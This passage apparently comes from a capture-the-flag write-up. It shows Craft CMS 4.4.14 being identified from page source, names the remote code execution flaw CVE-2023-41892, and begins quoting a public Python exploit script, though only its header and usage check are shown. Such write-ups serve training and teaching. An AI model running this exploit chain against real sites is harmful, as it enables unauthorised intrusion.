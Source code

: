 ![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/surveillance/Screenshot%202024-05-27%20105158.png?raw=true)

Upon inspecting the source code of `index.php`, I identified the specific version of Craft CMS in use.

![Logo](https://github.com/AmirulMohdNoor/AmirulMohdNoor.github.io/blob/main/images/surveillance/Screenshot%202024-05-29%20030509.png?raw=true)

## EXPLOITATION

After conducting a research, I discovered that Craft CMS version 4.4.14 is vulnerable to a critical remote code execution (RCE) vulnerability, identified as [**CVE-2023-41892**](https://www.exploit-db.com/exploits/51918)

```python
#!/usr/bin/env python3
#coding: utf-8

# Exploit Title: Craft CMS unauthenticated Remote Code Execution (RCE)
# Date: 2023-12-26
# Version: 4.0.0-RC1 - 4.4.14
# Vendor Homepage: https://craftcms.com/
# Software Link: https://github.com/craftcms/cms/releases/tag/4.4.14
# Tested on: Ubuntu 22.04.3 LTS
# Tested on: Craft CMS 4.4.14
# Exploit Author: Olivier Lasne
# CVE : CVE-2023-41892
# References :
# https://github.com/craftcms/cms/security/advisories/GHSA-4w8r-3xrw-v25g
# https://blog.calif.io/p/craftcms-rce

import requests
import sys, re

if(len(sys.argv) < 2):
    print(f"\033[1;96mUsage:\033[0m python {sys.argv[0]} \033[1;96m<url>\033[0m")
```